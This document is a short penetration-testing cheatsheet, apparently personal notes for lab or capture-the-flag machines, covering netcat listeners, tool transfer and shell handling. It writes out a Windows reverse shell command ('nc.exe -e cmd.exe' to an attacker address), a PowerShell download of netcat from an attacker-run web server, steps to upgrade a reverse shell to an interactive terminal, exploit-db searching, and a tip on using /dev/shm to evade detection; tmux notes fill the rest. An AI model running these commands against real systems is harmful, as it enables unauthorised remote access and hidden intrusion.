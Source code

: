 # Cheatsheet

Listen locally with nc
```
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# Exploits
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
```

# Tools
https://github.com/infodox/python-pty-shells

## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|x|kill pane|
|$|rename session|
|,|rename tab|
|space|cycle looks|
|t|show time|



# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever

